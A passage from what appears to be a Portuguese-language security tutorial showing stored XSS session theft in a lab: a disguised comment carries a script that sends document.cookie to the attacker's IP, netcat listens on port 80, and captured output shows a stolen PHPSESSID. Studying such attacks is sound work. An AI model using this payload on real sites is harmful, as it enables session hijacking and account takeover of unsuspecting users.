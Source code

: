 Só que não me interessa o meu cookie e sim o da vítima, e para fazer isso eu faço uma requisição do computador da vítima para o computador do hacker e essa requisição entregará o cookie da vítima.

E para isso eu faço o seguinte código

```js
Muito bom o site! (mensagem para não fazer a mensagem ser suspeita)

<script>

  var imagem=new Image();
  imagem.src="http://[ip-da-máquina no caso 192.168.0.104]?"+document.cookie;
  document.body.appendChild(imagem);
</script>
```

E com isso já temos a arapuca armada pro hacker poder acessar o seu cookie e poder se passar por você dentro do site.

Agora falta o hacker ouvir a essa requisição e para isso devemos usar o netcat ou nc e para isso vamos digitar

```sh
sudo nc -lvp 80
```

Isso é pedimos para que o netcat escute (l) e imprima (v) a porta 80 de comunicação. 

Aí na saída do terminal eu tenho o queria

```sh
listening on [any] 80 ...
192.168.0.103: inverse host lookup failed: Unknown host
connect to [192.168.0.104] from (UNKNOWN) [192.168.0.103] 57531
GET /?showhints=1;%20PHPSESSID=00i587nlarmacl0pmbfs3cb430 HTTP/1.1                                         

Host: 192.168.0.104                                       

Connection: keep-alive                                                
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36                                                                               

Accept: image/webp,image/apng,image/*,*/*;q=0.8                                                                                                       
Referer: http://192.168.0.104/                                                                                
Accept-Encoding: gzip, deflate                                                                                
Accept-Language: en-US,en;q=0.9  
```

Isso quando ele acessou o site, então o computador da outra pessoa que acessou acaba mandando o seu cookie para a outra pessoa que ele nem conhece. Com o método GET, agora falta saber utilizar esse nosso cookie e tirar proveito dele.
